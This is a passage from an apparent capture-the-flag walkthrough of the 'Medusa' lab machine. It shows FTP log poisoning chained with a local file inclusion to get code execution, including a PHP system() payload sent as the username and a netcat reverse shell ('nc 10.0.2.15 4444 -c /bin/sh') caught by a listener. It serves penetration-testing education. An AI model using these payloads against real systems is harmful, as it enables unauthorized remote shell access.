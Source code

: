 ```bash
Thu Sep 12 05:45:48 2024 [pid 17132] CONNECT: Client "::ffff:10.0.2.15"
Thu Sep 12 05:46:01 2024 [pid 17131] [I CONTROL LOGS] FAIL LOGIN: Client "::ffff:10.0.2.15"
```
We can see that the username 'I CONTROL LOGS' is present in the log file. Now let's input PHP code as our username.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ftp 10.0.2.6       
Connected to 10.0.2.6.
220 (vsFTPd 3.0.3)
Name (10.0.2.6:pentester): <?php system("id"); ?>
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.

┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$curl -s http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log 

<SNIP>

Thu Sep 12 05:46:01 2024 [pid 17131] [I CONTROL LOGS] FAIL LOGIN: Client "::ffff:10.0.2.15"
Thu Sep 12 05:48:18 2024 [pid 17160] CONNECT: Client "::ffff:10.0.2.15"
Thu Sep 12 05:48:49 2024 [pid 17159] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
] FAIL LOGIN: Client "::ffff:10.0.2.15"
```
The code is executed and returns the user's ID when the file is included. This confirms remote code execution. Now let's place a reverse shell as our username and start a listener to catch the shell.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ftp 10.0.2.6
Connected to 10.0.2.6.
220 (vsFTPd 3.0.3)
Name (10.0.2.6:pentester): <?php system("nc 10.0.2.15 4444 -c /bin/sh"); ?>
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp>

┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$nc -lvnp 4444
listening on [any] 4444 ...
```
Finally we can include the log file. This will execute the payload and send us a reverse connection.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$curl -s http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log

<SNIP>

Thu Sep 12 05:48:49 2024 [pid 17159] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
] FAIL LOGIN: Client "::ffff:10.0.2.15"
```
We can now check our listener that will indicate to us that we have received a shell.
```bash
┌──(pentester㉿kali)-[~/Medusa/]
└─$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.6] 40854
whoami
```